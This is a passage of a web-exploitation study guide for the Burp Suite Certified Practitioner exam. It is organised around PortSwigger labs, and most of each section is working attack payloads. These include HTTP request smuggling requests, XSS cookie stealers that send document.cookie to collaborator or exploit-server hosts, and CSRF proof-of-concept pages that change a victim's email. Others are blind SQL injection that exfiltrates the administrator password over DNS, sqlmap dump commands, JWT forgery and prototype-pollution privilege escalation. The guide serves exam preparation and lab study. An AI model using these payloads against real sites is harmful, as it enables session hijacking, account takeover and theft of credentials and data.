Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 798
Cookie: session=HackerCurrentCookieValue

csrf=ValidCSRFCookieValue&postId=8&name=c&email=c%40c.c&website=&comment=c
```  
  
  

>No new line at end of the smuggled POST request above^^.  

>View the blog **post** to see if there's a comment containing a user's request. Note that once the victim user browses the target website, then only will the attack be successful. Copy the user's Cookie header from the blog post comment, and use the cookie to access victim's account.  
  
  

[PortSwigger Lab: Exploiting HTTP request smuggling to capture other users' requests](https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests)  


### CL.TE multiCase - User-Agent Cookie Stealer

>***Identify*** the UserAgent value is stored in the GET request loading the blog comment form, and stored in **User-Agent** hidden value. Exploiting HTTP request smuggling to deliver reflected XSS using **User-Agent** value that is then placed in a smuggled request.  

>Basic Cross Site Scripting Payload escaping out of HTML document.  

```JavaScript
 "/><script>alert(1)</script>
```

>COOKIE STEALER Payload.  

```JavaScript
a"/><script>document.location='http://Collaborator.com/?cookiestealer='+document.cookie;</script>
```  

>Smuggle this XSS request to the back-end server, so that it exploits the next visitor. Place the XSS cookie stealer in **User-Agent** header.  

```html
POST / HTTP/1.1
Host: TARGET.net
Content-Length: 237
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /post?postId=4 HTTP/1.1
User-Agent: a"/><script>document.location='http://COLLABORATOR.com/?Hack='+document.cookie;</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```  

  

>Check the PortSwigger Collaborator Request received from victim browsing target.  
  
  

[PortSwigger Lab: Exploiting HTTP request smuggling to deliver reflected XSS](https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss)  

### TE.CL dualchunk - Transfer-encoding obfuscated  

>If Duplicate header names are allowed, and the vulnerability is detected as **dualchunk**, then add an additional header with name and value = **Transfer-encoding: cow**.  Use **obfuscation** techniques with second TE.  

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked

Transfer-encoding: identity
Transfer-encoding: cow
```  

>Some servers that do support the Transfer-Encoding header can be induced not to process it if the header is **obfuscation** in some way.  

>On Repeater menu ensure that the **"Update Content-Length"** option is unchecked.  

```html
POST / HTTP/1.1
Host: TARGET.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: identity

e6
GET /post?postId=4 HTTP/1.1
User-Agent: a"/><script>document.location='http://COLLABORATOR.com/?c='+document.cookie;</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0\r\n  
\r\n
  
```  

  

>**Note:** You need to include the trailing sequence **\r\n\r\n** following the final **0**.  

[PortSwigger Lab: HTTP request smuggling, obfuscating the Transfer-Encoding (TE) header](https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header)  
  
>Wonder how often this scenario occur that hacker is able to steal visiting user request via HTTP Sync vulnerability?  
  
### HTTP/2 smuggling via CRLF injection  

>Target is vulnerable to request smuggling because the front-end server **downgrades HTTP/2** requests and fails to adequately sanitize incoming headers. Exploitation is by use of an HTTP/2-exclusive request smuggling vector to steal a victims session cookie and gain access to user's account.  

>***Identify*** possible vulnerability when Target reflect previous and recent search history based on cookie, by removing cookie it is noticed that your search history is reset, confirming that it's tied to your session cookie.  

  

>Expand the Inspector's Request Attributes section and change the protocol to HTTP/2, then append arbitrary header ```foo``` with value ```bar```, follow with the sequence ```\r\n```, then followed by the ```Transfer-Encoding: chunked```, by pressing **shift+ENTER**.  

  

>Note: enable the **Allow HTTP/2 ALPN override** option and change the body of HTTP/2 request to below POST request.  

```html
0

POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=HACKER-SESSION-COOKIE
Content-Length: 800

search=nutty
```  
  
  
  
[PortSwigger Lab: HTTP/2 request smuggling via CRLF injection](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-smuggling-via-crlf-injection)  
  
[Youtube demo HTTP/2 request smuggling via CRLF injection](https://youtu.be/E-bnCGzl7Rk)  

### HTTP/2 TE desync v10a h2path

>Target is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length. Steal the  session cookie, of the admin visiting the target. The Burp extension, **HTTP Request Smuggler** will ***identify*** the vulnerability as HTTP/2 TE desync v10a (H2.TE) vulnerability.  

  

>Note: Switch to **HTTP/2** in the inspector request attributes and Enable the **Allow HTTP/2 ALPN override** option in repeat menu.  

```html
POST /x HTTP/2
Host: TARGET.net
Transfer-Encoding: chunked

0

GET /x HTTP/1.1
Host: TARGET.web-security-academy.net\r\n
\r\n
```  

>Note: Paths in both POST and GET requests points to non-existent endpoints. This help to ***identify*** when not getting a 404 response, the response is from victim user captured request. **Remember** to terminate the smuggled request properly by including the sequence ```\r\n\r\n``` after the Host header.  

  

>Copy stolen session cookie value into new **http/2** GET request to the admin panel.  

```
GET /admin HTTP/2
Host: TARGET.web-security-academy.net
Cookie: session=VictimAdminSessionCookieValue
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
```  

  

[PortSwigger Lab: Response queue poisoning via H2.TE request smuggling](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling)  
  

## Brute Force  

[Stay-Logged-in](#stay-logged-in)  
[Stay-logged-in Offline Crack](#stay-logged-in-offline-crack)  
[Brute Force Protected Login](#brute-force-protected-login)  
[Subtly Invalid Login](#subtly-invalid-login)  

### Stay-Logged-in  

>Login option with a stay-logged-in check-box result in Cookie value containing the password of the user logged in and is vulnerable to brute-forcing.  

  

>The exploit steps below plus the Intruder Payload processing rules in order and including the GREP option in sequence before starting the attack.  
  
1. Logout as current user.  
2. Send the most recent GET /my-account request to Burp Intruder.  
3. Select the cookie: ```stay-logged-in``` as injection position.  
4. Hash: ```MD5```  
5. Add prefix: ```carlos:```  
6. Encode: ```Base64-encode```  
7. Add **GREP** under settings tab, to check for the string in the response ```Update email``` indicating successfully logged in attack.  
  
  

[PortSwigger Lab: Brute-forcing a stay-logged-in cookie](https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie)  
  
### Stay-logged-in Offline Crack  
  
>The blog application comment function is vulnerable to [stored XSS](#stored-xss), use the below payload in blog comment to send the session cookie of Carlos to the exploit server.  

```
<script>
document.location='https://EXPLOIT.net/StealCookie='+document.cookie
</script>
```  
  
>Base64 decode the ```stay-logged-in``` cookie value and use an online **MD5** hash crack station database.  

  

[PortSwigger Lab: Offline password cracking](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)  

### Brute Force Protected Login  

>***Identified*** brute force protection on login when back-end enforce 30 minute ban, resulting in **IP blocked** after too many invalid login attempts. Testing ```X-Forwarded-For:``` header result in bypass of brute force protection. Observing the response time with long invalid password, mean we can use **Pitchfork** technique to ***identify*** first valid usernames with random long password and then rerun intruder with **Pitchfork**, set each payload position attack iterates through all sets simultaneously.  

[Burp Lab Username, Password and directory fuzzing Word lists](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/tree/main/wordlists)  

>Payload position 1 on IP address for ```X-Forwarded-For:``` and position 2 on username with a long password to see the **response time delay** in attack columns window.  

```
X-Forwarded-For: 12.13.14.15
```

  

>Repeat above **Pitchfork** intruder attack on the password field and then ***identify*** valid password from the status column with 302 result.  

[PortSwigger Lab: Username enumeration via response timing](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-response-timing)  
  
### Subtly Invalid Login  

>***Identify*** that the login page is not protected by brute force attack, and no IP block or time-out enforced for invalid username or password.  

  

>Notice on the Intruder attack column for the GREP value, ```Invalid username or password.``` the one response message for a failed username attack do not contain full stop period at the end. Repeat the attack with this ***identified*** username, and **Sniper** attack the password field to ***identify*** ```302``` response for valid login.  
>In the exam ***lookout*** for other input field disclosing valid accounts on the application and brute force ***identified*** account passwords, such as example to password reset function.  

[PortSwigger Lab: Username enumeration via subtly different responses](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-subtly-different-responses)  
  
# Authentication  

[Account Registration](#account-registration)  
[Auth Token bypass Macro](#auth-token-bypass-macro)  
  
## Account Registration  

>Business logic flaw in the account registration feature allow for gaining foothold as target user role access. [Content Discovery](#content-discovery) find the path ```/admin```, message state the Admin interface is only available if logged in as a **DontWannaCry** user.  

  

>Creating email with more that 200 character before the ```@``` symbol is then truncated to 255 characters. This ***identify*** the vulnerability in the account registration page logic **flaw**. In the email below the ```m``` at the end of ```@dontwannacry.com``` is character 255 exactly.  

```
very-long-strings-so-very-long-string-so-very-long-string-so-very-long-string-so-very-long-string-so-very-long-string-so-very-long-string-so-very-long-string-so-very-long-string-so-very-long-string-so-very-long-string-so-very-long-strings@dontwannacry.com.exploit-0afe007b03a34169c10b8fc501510091.exploit-server.net
```  
  
  

[PortSwigger Lab: Inconsistent handling of exceptional input](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-inconsistent-handling-of-exceptional-input)  

## Auth Token bypass Macro  

>If the authentication login is protected against brute force by using random token that is used on every login POST, a Burp Macro can be used to bypass protection.  
  
>Create Burp Macro  
1. Open Proxy settings and select **sessions** under Project choices.  
2. Scroll down to ```Macros```, and add new macro.  
3. Select **request** from the list to use for the value to be used.  
4. click ```Configure item``` and add custom parameter location to extract.  
5. Click **OK** to return to Sessions under Project choices.  
6. Add a Session handling **rule**, and the editor dialogue opens.  
7. In the dialogue, go to the "Scope" tab. 
8. Under scope for the session handling rule editor, **check** Target, Intruder, and Repeater.  
9. Still under "URL Scope", select ```Include all URLs```.  
10. Close Settings.  
  
  

[PortSwigger Lab: Infinite money logic flaw - show how to create Burp Macro](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-infinite-money)  
  
# Privilege Escalation  
  
## CSRF Account Takeover  

[OAuth](#oauth)  
[Referer Validation CSRF](#referer-validation-csrf)  
[Referer Header Present](#referer-header-present)  
[LastSearchTerm](#lastsearchterm)  
[CSRF duplicated in cookie](#csrf-duplicated-in-cookie)  
[CSRF Token Present](#csrf-token-present)  
[Is Logged In](#is-logged-in)  
[CSRF No Defences](#csrf-no-defences)  
  
>Cross-Site Request Forgery vulnerability allows an attacker to force users to perform actions that they did not intend to perform. This can enable attacker to change victim email address and use password reset to take over the account.  
  
### OAuth  

>oAuth linking exploit server hosting iframe, then deliver to victim, forcing user to update code linked.  

  

>Intercepted the GET /oauth-linking?code=[...]. send to repeat to save code. **Drop** the request. Important to ensure that the code is not used and, remains valid. Save on exploit server an iframe in which the ```src``` attribute points to the URL you just copied.  

```html
<iframe src="https://TARGET.net/oauth-linking?code=STOLEN-CODE"></iframe>
```  

[PortSwigger Lab: Forced OAuth profile linking](https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking)  
  
### Referer Validation CSRF  

>***Identify*** the change email function is vulnerable to CSRF by observing when the **Referer** header value is changed the response give message, ```Invalid referer header```, and the email change is accepted when the referrer value contains the expected target domain somewhere in the value.  

  

>Adding original domain of target and append it to the **Referer header** in the form of a query string, allow the change email to update.  

```html
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Referrer-Policy: unsafe-url
```  

>**Note:** Unlike the normal Referer header spelling, the word **"referrer"** must be spelled correctly in the above head section of the exploit server.  

  

>Create a CSRF proof of concept exploit and host it on the exploit server. Edit the JavaScript so that the third argument of the **history.pushState()** function includes a query string with target URL.  

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
	<script>
		history.pushState('', '', '/?TARGET.net');
	</script>
    <form action="https://TARGET.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;exploit&#45;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```  

>When above exploit payload is delivered to victim, the CSRF POC payload changes the victim email to **hacker@exploit.net**, because the Referer header contained target in value. In ***BSCP*** exam take not of your ```hacker@exploit``` server email address to use in account takeover.  

[PortSwigger Lab: CSRF with broken Referer validation](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken)  
  
### Referer Header Present  

>In the update email request when changing the ```referer``` header the response indicate invalid referer header, ***identifying*** CSRF vulnerability. Using the ```<meta name="referrer" content="no-referrer">``` as part of the exploit server CSRF PoC this control can be bypassed.  

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
<meta name="referrer" content="no-referrer">
    <form action="https://TARGET.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hackers&#64;EXPLOIT&#46;NET" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```  

  

[PortSwigger Lab: CSRF where Referer validation depends on header being present](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present)  

### LastSearchTerm  

>***Identify*** the CSRF vulnerability where token not tied to non-session cookie, by changing the **csrfkey** cookie and seeing the result that the request is rejected. Observe the **LastSearchTerm** cookie value containing the user supplied input from the search parameter.  

  

>Search function has no CSRF protection, create below payload that injects new line characters ```%0d%0a``` to set new cookie value in response, and use this to inject cookies into the victim user's browser.  

```
/?search=test%0d%0aSet-Cookie:%20csrfKey=CurrentUserCSRFKEY%3b%20SameSite=None
```  

>Generate CSRF POC, Enable the option to include an **auto-submit** script and click **Regenerate**. Remove the **auto-submit** script code block and add following instead, and place ```history.pushState``` script code below body header. The **onerror** of the IMG SRC tag will instead submit the CSRF POC.  

```

```  

>During BSCP **Exam** set the email change value to that of the exploit server ***hacker@exploit-server.net*** email address. Then you can change the administrator password with the reset function.  

  

>In the below CSRF PoC code, the hidden csrf value is the one generated by the **change email** function and the csrfkey value in the ```img src``` is the value of the victim, obtained by logging on as victim provided credentials. not sure in exam but real world this is test to be performed.  

```html
<html>
  <body>
    <script>history.pushState('', '', '/')</script>
    <form action="https://TARGET.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;exploit&#45;0a18002e03379f0ccf16180f01180022&#46;exploit&#45;server&#46;net" />
      <input type="hidden" name="csrf" value="48hizVRa9oJ1slhOIPljozUAjqDMdplb" />
      <input type="submit" value="Submit request" />
    </form>
	    
  </body>
</html>
```  

[PortSwigger Lab: CSRF where token is tied to non-session cookie](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)  
  
### CSRF duplicated in cookie  

>In the target we ***identify*** that the CSRF key token is duplicated in the cookie value. Another ***indicator*** is the cookie ```LastSearchTerm``` contain the value searched. By giving search value that contain ```%0d%0a``` we can inject an **end of line** and **new line** characters to create new CSRF cookie and value.  

  

>In the exploit code ```img src``` tag we set cookie for csrf to fake.  

```html
<html>
  <body>
    <form action="https://TARGET.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="ATTACKER&#64;EXPLOIT-SERVER&#46;NET" />
      <input type="hidden" name="csrf" value="fake" />
      <input type="submit" value="Submit request" />
    </form>
    
  </body>
</html>
```  

  

[PortSwigger Lab: CSRF where token is duplicated in cookie](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie)  

### CSRF Token Present  

>Changing the value of the ```csrf``` parameter result in change email request being **rejected**. Deleting the CSRF token allow the change email to be **accepted**, and this ***identify*** that the validation of token being present is vulnerable.

>CSRF PoC Payload hosted on exploit server:  

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="$param1name" value="$param1value">
</form>
<script>
    document.forms[0].submit();
</script>
```  

  

[PortSwigger Lab: CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present)  

### Is Logged In  
  
>If cookie with the **isloggedin** name is ***identified***, then a refresh of admin password POST request could be exploited. Change username parameter to administrator while logged in as low privilege user, CSRF where token is not tied to user session.  

```html
POST /refreshpassword HTTP/1.1
Host: TARGET.net
Cookie: session=%7b%22username%22%3a%22carlos%22%2c%22isloggedin%22%3atrue%7d--MCwCFAI9forAezNBAK%2fWxko91dgAiQd1AhQMZgWruKy%2fs0DZ0XW0wkyATeU7aA%3d%3d
Content-Length: 60
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://TARGET.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
X-Forwarded-Host: exploit.exploit-server.net
X-Host: exploit.exploit-server.net
X-Forwarded-Server: exploit.exploit-server.net
Referer: https://TARGET.net/refreshpassword
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

csrf=TOKEN&username=administrator
```  

  
  
### CSRF No Defences  

>Target with no defences against email change function, can allow the privilege escalation to admin role. In exam changing the email to the ```attacker@EXPLOIT.NET``` email address on the exploit server can allow the change of password for the low privilege user and can assist in privesc.  
>In the exam there is only on active user, and if the previous stage was completed using attack that did not involve active user clicking on link send from exploit server ```Deliver to Victim``` then this can be used in next stage.  

  

[PortSwigger Lab: CSRF vulnerability with no defences](https://portswigger.net/web-security/csrf/lab-no-defenses)  
  
## Password Reset  

[Refresh Password broken logic](#refresh-password-broken-logic)  
[Current Password](#current-password)  

### Refresh Password broken logic  

>If the application **Refresh Password** feature is flawed, this vulnerability can be exploited without any user clicking on link or interaction. This can lead to identifying valid users accounts or privilege escalation.  

>***Identify*** in the source code for the ```/forgot-password``` page the username is a hidden field.  

  

>Exploit the post request by deleting the ```temp-forgot-password-token``` parameter in both the URL and request body. Change the username parameter to ```carlos```.  

  

[PortSwigger Lab: Password reset broken logic](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic)  
  
### Current Password  

>***Identify*** the Change password do not need the ```current-password``` parameter to set a new password, and the **user** whom password will be changed is based on POST parameter ```username=administrator```  
>In the PortSwigger labs they provide you the credentials for ```wiener:peter```, and this simulate in the exam stage 1 achieved low level user access. In exam this password reset vulnerability is example of how it is possible without **interaction** from active user to privilege escalate your access to admin.  
  
>Intercept the ```/my-account/change-password``` request as the ```csrf``` token is single random use value, set ```username=administrator```, and remove ```current-password``` parameter.  

  

[PortSwigger Lab: Weak isolation on dual-use endpoint](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-weak-isolation-on-dual-use-endpoint)  
  
## SQL Injection  
  
[Blind SQLi](#blind-sqli)  
[Blind SQLi no indication](#blind-sqli-no-indication)  
[Blind SQLi Conditional Response](#blind-sqli-conditional-response)  
[Oracle](#oracle)  
[SQLMAP](#sqlmap)  
[Non-Oracle Manual SQLi](#non-oracle-manual-sqli)  
  
>Error based or Blind SQL injection vulnerabilities, allow SQL queries in an application to be used to extract data or login credentials from the  database. SQLMAP is used to fast track the exploit and retrieve the sensitive information.  

>***Identify*** SQLi, by adding a double (") or single quote (') to web parameters or tracking cookies, if this break the SQL syntax resulting in error message response, then positive SQL injection ***identified***.  

[SQL Injection cheat sheet examples](https://portswigger.net/web-security/sql-injection/cheat-sheet)  

  

### Blind SQLi  

>Target is vulnerable to Out of band data exfiltration using Blind SQL exploitation query. In this case the trackingID cookie.  Below is combination of SQL injection and XXE payload to exploit the vulnerability and send administrator password as DNS request to the collaborator service.  

```sql
TrackingId=xxx'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.COLLABORATOR.NET/">+%25remote%3b]>'),'/l')+FROM+dual--
```  

  
  
[PortSwigger Lab: Blind SQL injection with out-of-band data exfiltration](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)  
  
>The SQL payload above can also be used to extract the Administrator password for the this [PortSwigger Lab: Blind SQL injection with conditional errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors) challenge.  

### Blind SQLi no indication  

>Placing a single quote at end of the ```trackingid``` cookie or search parameter give no internal server error 500. Making educated guess, by using below blind SQLi payload abd combine with basic XXE technique, this then makes a call to collaboration server but no data is ex-filtrated.  

```sql
TrackingId=xxx'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//COLLABORATOR.NET/">+%25remote%3b]>'),'/l')+FROM+dual--
```  
  
  

>Additional SQLi payload with XML for reference with ```||``` the SQL concatenation operator to concatenate two expressions that evaluate two character data types or to numeric data type and do some obfuscating.  

```
'||(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % umiyp SYSTEM "http://Collaborat'||'OR.COM/">%umiyp;]>'),'/l') from dual)||'
```  

[OAST - Out-of-band Application Security Testing](https://portswigger.net/burp/application-security-testing/oast)  

[PortSwigger Lab: Blind SQL injection with out-of-band interaction](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)  
  
### Blind SQLi Conditional Response

>This blind SQL injection is ***identified*** by a small message difference in the responses. When sending a valid true SQL query the response contain ```Welcome back``` string in response. Invalid false SQL query statement do not contain the response conditional message.  

```
' AND '1'='1
```

>False SQL statement to ***identify*** conditional message not in response.  

```
' AND '1'='2
```  

>Determine how many characters are in the password of the administrator user. To do this, change the SQL statement value to and in intruder **Settings tab**, at the "Grep - Match" section. Clear any existing entries in the list, and then add the value ```Welcome back``` to ***identify*** true condition.  
  
```
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

>Next step is to test the character at each position to determine its value. This involves a much larger number of requests.  

```
' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
```

  

>Alternative use a **Cluster Bomb** attack and setting **two** payload positions, first one for the character position with a payload of numbers ```1..20``` and the second position, using alpha and number characters, this will iterate through each permutation of payload combinations.  

  

[PortSwigger Lab: Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)  
  
### Oracle  

>Identified SQL injection by using add single quote to the end of the **category** parameter value and observing response of internal server error.  
  
>Retrieve the list of tables in the Oracle database:  

```
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```  

>Oracle payload to retrieve the details of the columns in the table.  

```
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_XXX'--
```  

>Oracle payload to retrieve the usernames and passwords from Users_XXX table.  

```
'+UNION+SELECT+USERNAME_XXX,+PASSWORD_XXX+FROM+USERS_XXX--
```  
  
[PortSwigger Lab: SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)  

### SQLMAP 

>Sample SQLMAP commands to determine what SQL injection vulnerability exist and retrieving different types of information from back-end database.  

[SQLMAP Help usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)  

>SQLMAP determine the vulnerability, and perform initial enumeration.  

```bash
sqlmap -v -u 'https://TARGET.net/filter?category=*' -p "category" --batch --cookie="session=TheCookieValueCopied" --random-agent --level=5 --risk=3
```  

>SQLMAP determine the database DBMS.  

```bash
sqlmap -v -u 'https://TARGET.net/filter?category=*' -p "category" --batch --cookie="session=TheCookieValueCopied" --random-agent --level=5 --risk=3 --dbms=PostgreSQL -dbs
```  

>SQLMAP determine Database, Tables, dump, data Exfiltration.  

```bash
sqlmap -v -u 'https://TARGET.net/filter?category=*' -p "category" --batch --cookie="session=TheCookieValueCopied" --random-agent --level=5 --risk=3 --dbms=PostgreSQL -D public --tables
```  

>Dump content from table **users** in the **public** database.  

```
sqlmap -v -u 'https://TARGET.net/filter?category=*' -p "category" --batch --cookie="session=TheCookieValueCopied" --random-agent --dbms=PostgreSQL -D public -T users --dump --level=5 --risk=3

```  


>Use SQLMAP Technique parameter set type to error based instead of boolean-based blind vulnerability, and this speed up data Exfil process.  

```bash
sqlmap -v -u 'https://TARGET.net/filter?category=*' -p 'category' --batch --flush-session --dbms postgresql --technique E --level=5  
```  

### Non-Oracle Manual SQLi  

>SQL injection UNION attack, determining the **number of columns** returned by the query.  

```SQL
'+UNION+SELECT+NULL,NULL--
```  

>Determined there is **two** columns returned. Finding a column containing ```text```, to be used for reflecting information extracted.  

```SQL
'+UNION+SELECT+'fuzzer',NULL--
```  

>Next ***identifying*** a list of **tables** in the database.  

```SQL
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```  

>**OPTIONAL:** Retrieve data from other tables, use code below payload to retrieve the contents of the ```users``` table.  

```SQL
'+UNION+SELECT+username,+password+FROM+users--
```  

>Retrieve the names of the **columns** in the ***users*** table.  

```SQL
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_XXXX'--
```  
  
>**Final** step is to the **dump data** from the username and passwords columns.  

```SQL
'+UNION+SELECT+username_XXXX,+password_XXXX+FROM+users_XXXX--
```  

>**EXTRA:** If you only have one column to extract text data, then concatenate multiple values in a single reflected output field using SQL syntax ```||``` characters from the database.  

```
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```  

  

[PortSwigger Lab: SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)  

## JWT  

[JWT bypass via JWK](#manual-sqli)  
[JWT Weak secret](#jwt-weak-secret)  
[JWT kid header](#jwt-kid-header)  


>JSON web tokens (JWTs) use to send cryptographically signed JSON data, and most commonly used to send information ("claims") about users as part of authentication, session handling, and access control.  

### JWT bypass via JWK  

>The burp scanner ***identify*** vulnerability in server as, **JWT self-signed JWK header supported**. Possible to exploit it through failed check of the provided key source. Exploit steps:  

1. New RSA Key  
2. In request JWT payload, change the value of the **sub claim** to administrator  
3. Select Attack, then select **Embedded JWK** with newly generated RSA key  
4. Observe a ```jwk``` parameter now contain our public key, sending request result in access to admin portal  
  
  

[PortSwigger Lab: JWT authentication bypass via jwk header injection](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jwk-header-injection)  

### JWT Weak secret  

>Brute force weak JWT signing key  

```bash
hashcat -a 0 -m 16500 <YOUR-JWT> /path/to/jwt.secrets.list 
```  

>Hashcat result provide the secret, to be used to generate a forged signing key.  

[PortSwigger JWT authentication bypass via weak signing key](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-weak-signing-key)  

### JWT kid header  

>JWT-based mechanism for handling sessions. In order to verify the signature, the server uses the **kid** parameter in JWT header to fetch the relevant key from its file system. Generate a new **Symmetric Key** and replace **k** property with the base64 null byte ```AA==```, to be used when signing the JWT.  

>JWS  

```
{
    "kid": "../../../../../../../dev/null",
    "alg": "HS256"
}
```  

>Payload  

```
{
    "iss": "portswigger",
    "sub": "administrator",
    "exp": 1673523674
}
```  

  

[PortSwigger Lab: JWT authentication bypass via kid header path traversal](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-kid-header-path-traversal)  
  
## ProtoType Pollution  

>Attacker add arbitrary properties to global JavaScript object prototypes, which is inherited by user-defined objects that lead to client-side DOM XSS or server-side code execution.  

[Client-Side Proto](#client-side-proto)  
[Server-Side Proto](#server-side-proto)  
  
### Client-Side Proto  

>A target is vulnerable to DOM XSS via client side prototype pollution. **[DOM Invader](#dom-invader)** will ***identify*** the gadget and using a hosted payload to performing phishing directed at the victim and steal their cookie.  

>Exploit server Body section, host an exploit that will navigate the victim to a malicious URL.  

```html
<script>
    location="https://TARGET.NET/#__proto__[hitCallback]=alert%28document.cookie%29"
</script>  
```  

  

>Above image show the **Deliver to Victim** phishing request being send.  

[PortSwigger Lab: Client-side prototype pollution in third-party libraries](https://portswigger.net/web-security/prototype-pollution/finding/lab-prototype-pollution-client-side-prototype-pollution-in-third-party-libraries)

  

### Server-Side Proto  

>To ***identify*** Proto pollution, insert the follow into a JSON post request when updating a user profile information authenticated as low privileged role.  

```JSON
"__proto__": {
    "foo":"bar"
}
```  

  
  
>Observe the ```isAdmin``` property and resend the POST update account with the ```__proto__``` payload below to elevate our access role to Administrator.  

```JSON
"__proto__": {
    "isAdmin":true
}
```  

[PortSwigger Lab: Privilege escalation via server-side prototype pollution](https://portswigger.net/web-security/prototype-pollution/server-side/lab-privilege-escalation-via-server-side-prototype-pollution)  
  
## Access Control  
  
[JSON roleid PrivEsc](#privesc-json-roleid)  
[Original URL](#original-url)  
[Drop Select a role](#drop-select-a-role)  

### PrivEsc JSON RoleId  

>Access control to the admin interface is based on user roles, and this can lead to privilege escalation or access control security vulnerability.  

>Capture current logged in user email change submission request and send to **Intruder**, then add ```"roleid":§99§``` into the JSON body of the request, and fuzz the possible roleid value for administrator access role.  

```html
POST /my-account/change-email HTTP/1.1
Host: TARGET.web-security-academy.net
Cookie: session=vXAA9EM1hzQuJwHftcLHKxyZKtSf2xCW
Content-Length: 48
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
